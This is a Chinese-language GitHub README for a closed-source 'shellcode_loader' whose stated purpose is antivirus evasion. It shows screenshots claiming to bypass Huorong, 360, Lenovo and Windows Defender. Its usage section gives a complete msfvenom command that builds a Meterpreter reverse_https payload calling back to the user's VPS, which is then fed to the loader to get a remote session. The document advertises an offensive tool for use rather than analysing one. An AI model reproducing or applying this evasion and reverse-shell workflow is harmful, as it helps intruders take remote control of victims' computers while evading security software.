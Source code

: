# shellcode_loader
一款shellcode免杀工具，免杀测试对象火绒 360 联想等其他杀软,源码暂时就不放出来了效果如图。

上线效果如图：
![图片](https://user-images.githubusercontent.com/83112602/171603146-feec6c7a-ab83-4a8f-a921-c21db33e27a8.png)

免杀效果

火绒：![图片](https://user-images.githubusercontent.com/83112602/171603373-f50c1d92-d21f-4666-badc-2b6881e3b0a6.png)
360：![图片](https://user-images.githubusercontent.com/83112602/171603468-4cbad515-e887-4e55-b678-72e56dd13a0b.png)
联想：![图片](https://user-images.githubusercontent.com/83112602/171603645-e25e7e99-c128-494c-83b8-ecc45e01989a.png)
defender：![图片](https://user-images.githubusercontent.com/83112602/171606923-c4f34f41-b1ba-4510-ba7c-f3ae7c7ca370.png)


使用方法 msf生成 payload
msfvenom -p windows/x64/meterpreter/reverse_https  Lhost=vps地址 Lport=vps端口 -f hex

cmd界面输入打开loader输入payload上线
![图片](https://user-images.githubusercontent.com/83112602/171603890-e5ac8e02-433c-44b8-accd-f199cb0f1674.png)
